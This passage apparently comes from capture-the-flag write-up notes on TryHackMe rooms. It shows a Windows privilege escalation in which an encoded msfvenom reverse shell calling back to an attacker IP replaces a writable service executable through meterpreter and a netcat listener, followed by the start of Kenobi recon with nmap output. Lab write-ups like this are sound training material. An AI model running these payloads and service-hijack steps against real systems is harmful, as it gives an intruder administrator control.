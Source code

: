 This shows us a service called `AdvancedSystemCareService9` the our user can restart and also has write access to the directory, so we can override the existing executable with our own.

#### `msfvenom` Reverse shell

Creating the reverse shell exe
```bash
$> msfvenom -p windows/shell_reverse_tcp LHOST=10.9.7.128 LPORT=4444 -e x86/shikata_ga_nai -f exe -o msfvenom_reverse_shell.exe
```

Create a listener
```bash
$> nc -lvnp 4444
```

Upload and execute as a service
```bash
meterpreter> upload /opt/msfvenom_reverse_shell.exe
meterpreter> powershell_shell

PS> net stop AdvancedSystemCareService9
PS> cp .\msfvenom_reverse_shell.exe 'C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe'

PS> net start AdvancedSystemCareService9
```

And we have an admin shell via our netcat listener

#### Kenobi

[TryHackMe ~ Kenobi](https://tryhackme.com/room/kenobi)

Includes:
- Recon
  - nmap
  - samba enumeration
  - nfs scans
- Exploit
  - netcat
  - searchsploit
- Privilege esculation
  - SUID binaries
  - PATH poisoning

##### Recon

##### Nmap 
Port and service scan:
```bash
nmap -sV -sC <ip> -oX nmap-service-scan.xml | tee nmap-sevice-scan.txt 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 10:42 BST

Not shown: 993 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```